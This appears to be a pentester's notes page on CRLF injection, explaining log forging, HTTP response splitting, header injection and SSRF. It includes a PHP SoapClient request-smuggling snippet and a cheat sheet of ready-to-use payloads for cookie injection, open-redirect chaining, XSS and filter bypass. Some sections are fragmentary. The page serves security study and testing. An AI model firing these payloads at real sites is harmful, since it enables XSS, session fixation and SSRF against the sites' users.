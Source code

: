 # CRLF
## **What is the CRLF combination?**

The HTTP headers and the HTML response (website content) are separated by a specific combination of special characters, namely a carriage return (CR) and a line feed (LF).

The web server uses the CRLF combination to understand when new HTTP header begins and another one ends. The CRLF can also tell a web application or user that a new line begins in a file or in a text block. The CRLF characters are a standard HTTP/1.1 message, so they are used by all web servers, including **[Apache](https://www.invicti.com/server-security-software/apache-security-scanner/)**
, Microsoft IIS, and others.

---

## **What is the CRLF injection vulnerability?**

In a CRLF injection attack, the attacker inserts the carriage return and linefeed characters into user input to trick the server into thinking that an object has terminated and another one has started,, for example for HTTP response splitting.

---

## ****CRLF injection in web applications****

CRLF injection can have a severe impact , can range from information disclosure to code execution

---

### **Example: CRLF injection in a log file**

Imagine a log file in an admin panel with the output stream pattern of *IP - Time - Visited Path,* such as the below:

```
123.123.123.123 - 08:15 - /index.php?page=home
```

If an attacker is able to inject the CRLF characters into the HTTP request, they can change the output stream and fake log entries. The response from the web application can be changed to something like this:

```
/index.php?page=home&%0d%0a127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
```

The `%0d` and `%0a` are URL-encoded forms of CR and LF. Therefore, the log entries would look like this after the attacker inserted those characters and the application displays them (IP - Time - Visited Path):

```
123.123.123.123 - 08:15 - /index.php?page=home&
127.0.0.1 - 08:15 - /index.php?page=home&restrictedaction=edit
```

By exploiting a CRLF injection vulnerability, attackers can fake entries in the log file to obfuscate their actions. In this case, the attacker is literally doing page hijacking and modifying the response.

Imagine a scenario where the attacker has the admin password and uses the `restrictedaction` parameter, which can only be used by an admin. If an administrator notices that an unknown IP has used the `restrictedaction` parameter, they may suspect malicious activity. However, since now it looks like the command was issued by the localhost (and therefore probably by someone who has access to the server, like an admin), it does not look suspicious.

The whole part of the query beginning with `%0d%0a` will be handled by the server as one parameter. After that, there is another `&` character with the parameter `restrictedaction`, which will be parsed by the server as another parameter. Effectively, this would be the same query as:

```
/index.php?page=home&restrictedaction=edit
```

---

## EX-2

, there are a couple of inputs being reflected into the HTTP Headers . After a bit of fiddling, I discovered that non-printable control characters were not encoded which they should be, which took me to try for CRLF and I tried to add “Location” header to see whether it was 

getting redirected. Below is the POC —

![1_EZMcORKM2QPG_vXC-Fy4pw.png](./ex1.png)

Now the Server responds to this request by injecting the CRLF characters in the response , you will find “Location” http header has been set in the http response with the value “[http://www.evilzone.org](http://www.evilzone.org/)” as injected via the CRLF payload in the below screesnshot—

![1_ieQQ71kALe3qFVEKi1aMQA.png](./ex2.png)

---

## **HTTP response splitting**

. A combination of CRLFCRLF will tell the browser that the header ends and the body begins. This could allow an attacker to write data into the response body where the HTML code is sent, leading to a **[cross-site scripting  (XSS)](https://www.invicti.com/blog/web-security/cross-site-scripting-xss/)**
 vulnerability.

### **Example: HTTP response splitting leading to XSS**

Imagine an application that sets a custom header, for example:

```
X-Your-Name: Bob
```

The value of the header is set via a GET parameter called `name`. If no URL-encoding is in place and the value is directly reflected inside the header, it might be possible for an attacker to insert the above mentioned combination of CRLFCRLF to tell the browser where the request body begins. That way, attackers may be able to insert data such as a XSS payload, for example:

```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

The above will display an alert window in the context of the attacked domain.

---

## **HTTP header injection**

By exploiting a CRLF injection, an attacker can also insert HTTP headers which could be used to defeat security mechanisms such as a browser's XSS filter or the same-origin-policy. This allows malicious actors to obtain sensitive information like CSRF tokens. Attackers can also set cookies which could be exploited by logging the victim into the attacker's account or used to exploit otherwise unexploitable cross-site scripting vulnerabilities.

---

## How to find

1. using user input directly in response headers.
2. no encode the CRLF special characters.
3. 

---

## New HTTP request in SSRF

Abusing CRLF injection you can **craft a new HTTP request and inject it**.
A good example can be done using the `SoapClient` deserialization gadget from in PHP. This class is **vulnerable to CRLF** inside the `user_agent` parameter allowing to i**nsert new headers and body content**. However, you can even be able to abuse this vulnerability to **inject a new HTTP request:**

```bash
$target = 'http://127.0.0.1:9090/test'; 
$post_string = 'variable=post value';
$crlf = array(
    'POST /proxy HTTP/1.1',
    'Host: local.host.htb',
    'Cookie: PHPSESSID=[PHPSESSID]',
    'Content-Type: application/x-www-form-urlencoded',
    'Content-Length: '.(string)strlen($post_string),
    "\r\n",
    $post_string
);

$client = new SoapClient(null,
    array(
        'uri'=>$target,
        'location'=>$target,
        'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
    )
);

#Put a nc listening in port 9090
$client->__soapCall("test", []);
```

## CHEATSHEET

```bash
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2 
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```

## Tools

https://github.com/dwisiswant0/crlfuzz

https://github.com/dwisiswant0/crlfuzz

**Brute-Force Detection List ⇒[Auto_Wordlists](https://github.com/carlospolop/Auto_Wordlists)/[wordlists](https://github.com/carlospolop/Auto_Wordlists/tree/main/wordlists)/crlf.txt[Go to file](https://github.com/carlospolop/Auto_Wordlists/find/main)**

[Auto_Wordlists/crlf.txt at main · carlospolop/Auto_Wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/crlf.txt)

###
